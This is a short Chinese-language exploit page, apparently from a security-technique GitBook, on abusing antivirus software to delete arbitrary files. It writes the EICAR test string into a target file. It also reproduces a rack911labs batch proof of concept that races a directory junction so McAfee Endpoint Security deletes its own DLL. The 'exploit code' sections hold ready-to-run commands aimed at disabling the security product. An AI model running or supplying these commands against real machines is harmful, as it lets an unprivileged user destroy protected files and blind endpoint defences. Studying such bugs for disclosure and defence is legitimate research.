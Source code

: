 # 利用杀毒软件删除任意文件

## 简介

通常，下载一个未知文件保存到硬盘后，杀毒软件通常会在短时间进行实时扫描，如果确定为可疑或威胁，该文件会被自动隔离，并询问用户是否处理。

考虑到杀毒软件几乎都已高权限运行，这样就为我们对杀毒软件利用产生了条件，我们可以往一个合法文件里写入恶意代码特征，然后利用杀毒软件帮我去删除这个文件，当然前提是这个文件当前没有使用。

## 测试字符串

```text
X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*
```

> **来自维基百科:**
>
> **EICAR标准反病毒测试文件**，又称**EICAR测试文件**, 是由[欧洲反计算机病毒协会](https://zh.wikipedia.org/wiki/%E6%AC%A7%E6%B4%B2%E5%8F%8D%E8%AE%A1%E7%AE%97%E6%9C%BA%E7%97%85%E6%AF%92%E5%8D%8F%E4%BC%9A)（EICAR）与[计算机病毒研究组织](https://zh.wikipedia.org/w/index.php?title=%E8%AE%A1%E7%AE%97%E6%9C%BA%E7%97%85%E6%AF%92%E7%A0%94%E7%A9%B6%E7%BB%84%E7%BB%87&action=edit&redlink=1)（CARO）研制的文件, 用以测试[杀毒软件](https://zh.wikipedia.org/wiki/%E6%9D%80%E6%AF%92%E8%BD%AF%E4%BB%B6)的响应程度。不同于使用可能造成实际破环的实体恶意软件，该文件允许人们在没有计算机病毒的情况下测试杀毒软件。
>
> 杀毒软件的开发者将EICAR字符串视为测试病毒，与其他鉴别标识相似。合格的病毒扫描器在发现文件时，会精确地采用相同方式处置，如同发现一个严重的病毒时那样。注意并非所有病毒扫描器是合格的，有些病毒扫描器会在精确识别后保留文件。
>
> EICAR测试字符的用法要比直接测试灵活：包含EICAR测试字符的文件会被[压缩](https://zh.wikipedia.org/wiki/%E6%95%B0%E6%8D%AE%E5%8E%8B%E7%BC%A9)或者[存档](https://zh.wikipedia.org/wiki/%E5%AD%98%E6%A1%A3)，并且杀毒软件会尝试删除压缩文件中的测试字符。

简单的说为了测试杀毒软件的性能,所有厂商都会把这个测试字符串当作病毒处理。

![](../.gitbook/assets/image%20%2878%29.png)

预想一个场景，在杀毒软件运行时考虑到内存占用可能并不会加载所有自身dll，那我们往这个未加载的dll里写入这个测试字符串，这样杀毒软件就会自己干掉自己，等到需要用到这个功能dll的时候，这个功能就会失效。

## 利用流程

1. 往文件写入测试字符串

## 利用代码

```text
echo X5O!P%@AP[4\PZX54(P^^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*  > <FILENAME>
```

## 扩展利用

windows提供了一个目录链接功能，只能将两个目录链接在一起。它不能链接文件，并且目录必须在文件系统本地。目录连接可以由任何用户执行，并且不需要管理员特权，因此非常适合在Windows操作系统下利用防病毒软件进行利用。

此poc来自rack911labs:

```text
:loop
rd /s /q C:\Users\Username\Desktop\exploit
mkdir C:\Users\Username\Desktop\exploit
echo X5O!P%@AP[4\PZX54(P^^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H* > C:\Users\Username\Desktop\exploit\EpSecApiLib.dll
rd /s /q C:\Users\Username\Desktop\exploit
mklink /J C:\Users\Username\Desktop\exploit “C:\Program Files (x86)\McAfee\Endpoint Security\Endpoint Security Platform”
goto loop
```

## LINKS

{% embed url="https://zh.wikipedia.org/wiki/EICAR%E6%A0%87%E5%87%86%E5%8F%8D%E7%97%85%E6%AF%92%E6%B5%8B%E8%AF%95%E6%96%87%E4%BB%B6" %}

{% embed url="https://www.rack911labs.com/research/exploiting-almost-every-antivirus-software/" %}

